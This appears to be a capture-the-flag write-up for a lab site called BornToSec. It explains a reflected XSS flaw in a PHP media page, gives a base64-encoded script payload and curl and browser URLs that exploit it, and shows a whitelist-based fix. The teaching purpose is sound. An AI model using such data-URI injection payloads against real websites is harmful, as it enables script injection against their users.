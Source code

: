 # Reflected XSS via PHP wrapper

## 📖 Vulnerability Explanation
The media page loads a file using the _src_ parameter. The app doesn't sanitize the input and it makes a XSS possible by injecting HTML code with a ```data:/``` php wrapper.

## ⚙️ Exploitation Process
Encode the XSS payload and send it with the ```data:/text/html,base64;<base64 HTML code>``` wrapper. 

---

**1. Encode the payload in base64**

```
echo '<script> alert(42); </script>' | base64
```

---

**2. Send the encoded payload**

```
curl -s 'http://BornToSec.com/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD4gYWxlcnQoNDIpOyA8L3NjcmlwdD4K' | grep flag
```

> The payload can also be sent with a web browser: http://BornToSec.com/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD4gYWxlcnQoNDIpOyA8L3NjcmlwdD4K


## 🔧 Fix
To prevent from injections, the most secure and easy to implement fix is using a whitelist for the loadable sources.
In addition to this, it's also possible to sanitize the display to avoid XSS.

## ☝️🤓 Advanced explanation
The following code shows a secure implementation of file loading using a whitelist and protecting display:

```
<?php
$allowed_files = ['nsa', 'example', 'albatros'];
$src = $_GET['src'] ?? '';

if (in_array($src, $allowed_files, true)) {
    $content = file_get_contents($src);
    echo htmlspecialchars($content, ENT_QUOTES | ENT_SUBSTITUTE, 'UTF-8');
} else {
    echo "Invalid file request";
}
?>
```